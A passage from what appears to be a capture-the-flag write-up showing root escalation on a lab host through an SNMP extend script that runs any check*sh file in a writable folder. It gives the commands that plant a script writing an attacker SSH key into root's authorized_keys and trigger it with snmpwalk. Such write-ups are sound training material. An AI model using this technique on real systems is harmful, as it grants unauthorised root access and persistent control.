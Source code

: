 looking the acl permissions we can see that user "michelle" have `#effective:-wx` that means user "michelle" can write&execute but can't read.

## SNMP Extend Command

SNMP executes `/usr/bin/monitor` script.
```bash
❯ snmpwalk -v2c -c public 10.10.10.241 nsExtendCommand
NET-SNMP-EXTEND-MIB::nsExtendCommand."monitoring" = STRING: /usr/bin/monitor
```

* `nsExtendCommand` stand for "full path of the command binary (or script) to run"  and there is only one binary in this snmp.
* Net-SNMP agent provides a method to extend SNMP in Cumulus Linux via the NET-SNMP-EXTEND-MIB. using this MIB to query shell scripts specified by the extend directive in `/etc/snmp/snmpd.conf`.


That script executes all/any script from `/usr/local/monitoring` directory with `check*sh`
```bash
#!/bin/bash

for script in /usr/local/monitoring/check*sh
do
    /bin/bash $script
done
```

We can exploit this by create reverse shell script in `/usr/local/monitoring/` and than execute it from snmp.

**First,** create bash script in `/usr/local/monitoring` folder
```bash
echo -e '#!/bin/bash\n\necho "ssh-rsa <public_key>" > /root/.ssh/authorized_keys' > /usr/local/monitoring/check-pwn.sh
```

**Second,** execute snmp extend script `/usr/bin/monitor` with [nsExtendObjects](https://oidref.com/1.3.6.1.4.1.8072.1.3.2) from `NET-SNMP-EXTEND-MIB`
* use MIB `nsExtendObjects` if direct OID is not work.
* And with that we don't have to run complete snmpwalk and directly execute snmp extend scripts.

```bash
snmpwalk -v2c -c public 10.10.10.241 1.3.6.1.4.1.8072.1.3.2
```

*Don't know why but nothing else is working for me besides echoing ssh key* **Reason: [SElinux](https://www.redhat.com/en/topics/linux/what-is-selinux); ippsec [explained](https://www.youtube.com/watch?v=IF5uhe1qR2I&t=3380s)**
